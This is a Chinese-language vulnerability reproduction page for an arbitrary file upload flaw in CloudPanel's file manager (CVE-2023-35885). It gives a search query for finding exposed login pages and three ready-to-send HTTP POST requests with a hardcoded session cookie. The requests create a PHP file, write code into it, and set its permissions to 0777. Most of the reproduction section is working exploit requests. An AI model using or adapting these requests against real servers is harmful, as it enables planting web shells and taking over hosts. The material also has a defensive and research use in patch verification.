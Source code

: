 # 

# CloudPanel makefile 任意文件上传漏洞 CVE-2023-35885

## 漏洞描述

CloudPanel是一个免费的基于PHP的高性能服务器控制面板，具有轻量级组件和现代功能，易于使用，且支持多个PHP版本，提供多语言版本切换。

CloudPanel makefile 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。

## 漏洞影响

cloudpanel 2.0.0 >= 2.3.0

## 网络测绘

```
title=="CloudPanel | Log In"
```

## 漏洞复现

登陆页面

![image-20231115102840968](images/image-20231115102840968.png)

poc

```
POST /file-manager/backend/makefile HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/&name=Test.php
```

![image-20231115103123744](images/image-20231115103123744.png)

```
POST /file-manager/backend/text HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 289
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&content=<?php phpinfo()?>
```

![image-20231115103133858](images/image-20231115103133858.png)

```
POST /file-manager/backend/permissions HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&permissions=0777
```

![image-20231115103158786](images/image-20231115103158786.png)

访问

```
/Test.php
```


